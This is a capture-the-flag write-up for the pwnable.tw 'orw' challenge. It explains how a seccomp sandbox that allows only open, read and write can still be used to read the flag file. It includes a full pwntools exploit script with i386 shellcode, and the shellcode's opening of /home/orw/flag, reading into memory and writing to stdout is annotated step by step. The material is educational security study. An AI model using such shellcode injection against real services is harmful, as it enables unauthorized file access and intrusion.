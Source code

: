 # orw

Read the flag from `/home/orw/flag`.

Only open read write `syscall` are allowed to use.

```
nc chall.pwnable.tw 10001
```

[orw](http://ctf.infury.org:8000/files/fbd45ee7f8e047233234f0c370d08d66/orw)

## WP

The title orw means open, read and write.

By disassembling the  executable file we can see the logic of the program.

![image-20210806115154735](orw.assets/image-20210806115154735.png)

First it will call a function called `orw_seccomp()`, this function will forbidden most of the `syscall` except open, read and write.

Then the program will read the user input, and then the program will execute the user input.

Since the shell code like opening shell is obviously forbidden by `orw_seccomp()` function, we can use shell codes only including orw operations to read the content of `/home/orw/flag`.

The script is shown below.

```python
from pwn import *
import pwnlib

p = remote('chall.pwnable.tw', 10001)
p.recvuntil(':')

# shellcode = pwnlib.shellcraft.i386.linux.cat('/home/orw/flag')

shellcode = """
xor ecx, ecx;
push ecx;
push 0x67616c66;
push 0x2f77726f;
push 0x2f656d6f;
push 0x682f2f2f;
mov ebx,esp;
xor edx,edx;
mov eax,0x5;
int 0x80;
mov ebx,eax;
mov ecx,esp;
mov edx,0x30;
mov eax,0x3;
int 0x80;
mov eax,0x4;
mov ebx,0x1;
mov edx,0x30;
int 0x80
"""

p.send(asm(shellcode))
print(p.recvall())
```

We can also get the shellcode from `pwnlib` but I can't get the flag through the shellcode from `pwnlib`, so I finally used a shellcode which is searched online.

This shellcode takes effect in three steps:

1. Open `/home/orw/flag`.

   ```assembly
   push 0x67616c66;
   push 0x2f77726f;
   push 0x2f656d6f;
   push 0x682f2f2f;
   mov ebx,esp;
   mov eax,0x5;
   int 0x80;
   ```

   `ebx` stores the name of the file. In this case it stores the start address of the string corresponds to the filename in the memory.

   Assigning `eax` with `5` means when syscall (i.e. `int 0x80`) is executed, the program will open the file specified by `ebx`.

   **After this `syscall` is executed, the opened file's file descriptor (`fd`) will be saved in `eax`.**

2.  Read the content of file into memory.

   ```assembly
   mov ebx,eax;
   mov ecx,esp;
   mov edx,0x30;
   mov eax,0x3;
   int 0x80;
   ```

   Since the file descriptor is stored in `eax` after the file is opened, we first assign `ebx` with the content of `eax`, because `ebx` stores the file descriptor (`fd`) in `read` syscall, which is used to mark the resource of reading (`ebx=0` means reading input from standard input).

   `ecx` stores the start address of the read buffer. In this case it's the address of the space which is originally used to store the filename: it is not necessary now and we use it as the read buffer.

   Assigning `edx` with `0x30` means we will read in `0x30` bytes at most.

   Assigning `eax` with `3` means this is a read syscall.

3. Write it on the screen.

   ```assembly
   mov eax,0x4;
   mov ebx,0x1;
   mov edx,0x30;
   int 0x80
   ```

   Assigning `eax` with `4` means this is a write syscall.

   `ebx` stores the file descriptor of this write syscall, in this case it's `1`, meaning the standard output.

   Assigning `edx` with `0x30` means this write syscall will output `0x30` bytes.

After the shell code is executed, we can finally get the flag.

![image-20210806185534518](orw.assets/image-20210806185534518.png)

